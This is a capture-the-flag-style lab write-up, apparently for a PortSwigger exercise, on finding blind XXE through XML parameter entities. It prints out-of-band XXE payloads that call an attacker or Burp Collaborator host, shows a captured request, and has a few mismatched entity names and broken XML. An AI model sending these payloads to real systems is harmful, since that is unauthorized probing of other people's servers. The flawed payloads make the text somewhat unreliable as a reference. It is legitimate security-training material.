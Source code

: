 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aa4f23ae-5538-4b0d-ad81-5c3fd061b2cf)

## Overview :

 **Sometimes, XXE attacks using regular entities are blocked**, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to **use XML parameter entities instead**. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

 ```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Solution :


Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/1.1
Host: 0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Cookie: session=gwBsRlQTEvY287RWKXKNzyrlafd6MhsP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a0f001d038e90d781560cbc008a008e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we will declare a DOCTYPE eith parameterized entitites (**%**) which contains the url of our collaborator server -`<!DOCTYPE root [<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %xxe; ]>` & in that we can reference the parameterized entitiy using - `%ext;`

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#basic-blind-xxe

**Payload -**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://ibxj9hi7igb643lzee9r5ghu7ldc11.oastify.com"> %xxe; ]> 
 <productId>% 1</productId>
 <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f98c7499-02d8-4509-a1f6-e783c7cd495d)

In the response it says that - `XML parsing error` but it means that the xml parser indeed parsed the xml code and made an outbound request to our collaborator server.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e7d2d8f7-c3fe-416b-82a4-102e382a30a9)

And we've solved the lab !
















